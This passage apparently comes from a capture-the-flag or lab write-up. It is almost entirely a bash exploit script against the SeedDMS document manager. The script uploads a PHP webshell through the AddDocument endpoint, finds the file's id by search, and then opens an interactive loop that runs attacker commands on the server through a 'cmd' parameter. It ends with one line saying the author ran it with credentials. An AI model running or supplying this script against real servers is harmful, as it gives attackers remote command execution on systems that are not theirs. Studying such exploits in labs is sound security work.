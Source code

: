 ```bash
echo $webshell > $file

# Uploading the payload
randname=$(echo $RANDOM | base64)

upload=$(curl -s -X POST -b cookies.txt "${url}/op/op.AddDocument.php" \
    -F "formtoken=$formtoken" \
    -F "folderid=1" \
    -F "showtree=1" \
    -F "name=$randname" \
    -F "comment=" \
    -F "keywords=" \
    -F "sequence=2" \
    -F "presetexpdate='never'" \
    -F "expdate=" \
    -F "ownerid=1" \
    -F "reqversion=1" \
    -F "userfile[]=@$file" \
    -F "version_comment=") 

if [ $? -eq 0 ]; then
    echo "[+] Webshell uploaded"
    rm $file
else
    echo "[+] Ocurred an error uploading web shell"
    exit
fi

# Searching webshell
file_id=$(curl -sL -b cookies.txt "$url/out/out.Search.php?folderid=1&navBar=1&query=$randname" \
    | grep -oP 'target-id=".*?"' | cut -d '"' -f 2)

# Executing webshell
if [ -n "$file_id" ]; then
    echo -e "[+] Getting shell\n"
    while echo -n "\$ "; read command; do
        if [ "$command" = "exit" ]; then
            exit
        fi
        curl -sL -b cookies.txt "$url/../data/1048576/$file_id/1.php?cmd=$(php -r "echo urlencode('$command');")" 
    done 
else
    echo "[-] Couldn't run webshell"
    exit
fi
```

I granted execute permissions and executed the script adding the username and password as parameters.
